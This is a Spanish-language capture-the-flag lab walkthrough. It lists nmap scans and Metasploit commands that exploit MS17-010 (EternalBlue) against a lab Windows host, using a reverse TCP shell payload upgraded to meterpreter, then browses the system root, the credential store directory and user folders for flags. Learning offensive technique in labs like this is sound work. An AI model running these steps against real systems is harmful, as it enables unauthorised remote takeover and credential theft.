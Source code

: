 Parte 1:

nmap 10.10.38.140 --scaneo de la ip

nmap -vv -sV -A -O -sC -p 135,139,445,3389 10.10.38.140 --scaneo de los purtos abiertos y sistema operativo

nmap --script smb-vuln-ms17-010 -p445 10.10.38.140 --scaneo para saber si la maquina es vulnerable a este excploit tras la verison del sistema operativo\\

estos 3 pasos se pueden hacer asi: ```nmap -vv -sV -sC -O -A -p445 -T4 --script vuln <ip>```

Parte 2:

usamos msfconsole

search ms17 --para buscar el exploit en metasplit y poder usarlo

use 0 --es el exploit que necesitamos

show options -- para ver que opciones debemos ajustar como el RHOSTS

set RHOSTS 10.10.38.140 --apra poder atacar a la maquina

set LHOST --tu ip

set LPORT puerto --si no va el predefinido

set payload windows/x64/shell/reverse_tcp --lo dice el ejercicio

run --ejecutamos el exploit

CRTL Z --para hacer backgroubn de la sesion

session -l --para ver las sesiones

session -u <sesion> --para hacerla meterpreter 

Flag1? This flag can be found at the system root. 
  cd .. --hasta llegar a C:\
  type-cat flag1.txt

Flag2? This flag can be found at the location where passwords are stored within Windows.
  Tenemos que entrar a donde se guardan las contarsenyas en windows
  cd C:\Windows\System32\config
  cat flag2.txt

flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 
  cd Users y ya buscas la carpeta correcta
  cat flag3.txt


  
